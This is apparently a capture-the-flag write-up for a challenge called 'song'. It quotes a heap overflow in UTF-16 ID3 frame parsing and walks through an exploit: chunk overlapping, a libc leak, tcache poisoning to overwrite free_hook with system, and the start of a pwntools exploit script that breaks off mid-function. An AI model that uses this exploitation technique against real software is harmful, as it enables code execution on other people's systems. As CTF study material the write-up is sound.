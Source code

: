 

## song

The crash was found through honggfuzz.

Crash points out the vulnerability here.

```c
else if (encoding == 0x02) {
  int len = n / 2;
  const char16_t *framedata = (const char16_t *)(frameData + 1);
  char16_t *framedatacopy = NULL;
  if (len > 0) {
    framedatacopy = new (std::nothrow) char16_t[len];
    if (framedatacopy == NULL) {
      return false;
    }
    for (int i = 0; i < len; i++) {
      framedatacopy[i] = bswap_16(framedata[i]);
    }
    framedata = framedatacopy;
  }
  featuring->setTo(framedata, len);
  if (framedatacopy != NULL) {
    delete[] framedatacopy;
  }
}
```
But vulnerabilities are not immediately visible. So I started digging into String8.cpp, String16.cpp.

and... i found 1-day. [https://bugs.chromium.org/p/project-zero/issues/detail?id=840](https://bugs.chromium.org/p/project-zero/issues/detail?id=840)

Now that you've got a heap overflow of any size, heap tricks' turn.

Proceeds with [chunk overlapping](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/overlapping_chunks.c) through overflow.

We can put it in unsorted bin up to the ALBUM area by overlapping.

After that, Reduce the size of the unsorted bin by alloc 0x5a0. Through this operation, the main_arena address is written in the ALBUM area, so it is possible to libc leak.

If you've even done libc leak, it's simple after that. Write a value to fd of tcache that has been freed through heap overflow, and get a arbitrary address write :)

brute-forcing free_hook and system addresses until utf8 valid (all address bytes <= 80).

The exploit is not optimized. Sorry :(

```python
from pwn import *
import random


libc = ELF('./libc-2.31.so')#ELF('/lib/x86_64-linux-gnu/libc-2.31.so')
#context.log_level='error'
def overflow(payload, length):
  return b'\xd8\x41\xd8\x41\xdc\x41'*length + payload

def a(a1):
  return ((0xE5000000 >> ((a1 >> 3) & 0x1E)) & 3) + 1

def utf16(string, b=0):
  r = b''
  if b == 0:
    for i in string:
```